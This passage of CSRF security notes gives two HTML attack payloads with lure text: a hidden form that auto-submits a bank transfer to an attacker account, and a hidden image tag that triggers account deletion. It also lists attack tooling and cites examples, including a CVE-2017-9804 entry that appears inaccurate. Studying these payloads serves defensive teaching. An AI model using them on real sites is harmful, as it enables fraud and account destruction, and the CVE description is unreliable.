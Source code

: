 **Payload examples (categorized):**

- **POST-based CSRF (Hidden Form Auto-Submission):**
    
    HTML
    
    ```html
    <html>
    <body>
      <form id="csrfForm" action="https://bank.example.com/transfer" method="POST">
        <input type="hidden" name="recipient" value="attacker_account" />
        <input type="hidden" name="amount" value="1000" />
        <input type="hidden" name="currency" value="USD" />
      </form>
      <script>
        document.getElementById('csrfForm').submit();
      </script>
      <p>You've won a free iPhone! Click anywhere to claim it.</p>
    </body>
    </html>
    ```
    
- **GET-based CSRF (Image Tag):**
    
    HTML
    
    ```html
    <html>
    <body>
      <img src="https://example.com/user/delete?id=victim_account" style="display:none;">
      <p>Welcome to my amazing website!</p>
    </body>
    </html>
    ```
    

**Tools used:**

- **Burp Suite:** Essential for capturing, modifying, and replaying requests to identify vulnerable actions and craft payloads.
- **Web browser developer tools:** Useful for inspecting network requests and understanding how a legitimate application interacts with its backend.
- **Basic text editor:** For crafting the malicious HTML/JavaScript files.
- **Web server:** To host the malicious HTML file (e.g., Python's `http.server` module).

**Real-world examples (CVE, bugs in libraries or apps):**

- Many legacy web applications have been vulnerable to CSRF. While modern frameworks often provide built-in protections, misconfigurations or custom code can still introduce vulnerabilities.
- **CVE-2017-9804 (Apache Struts):** While primarily known for remote code execution, older versions of Struts had CSRF vulnerabilities due to a lack of token validation in certain actions.
- Numerous bug bounty reports exist where CSRF on actions like password changes, email changes, or account deletions have been found in various applications.

---
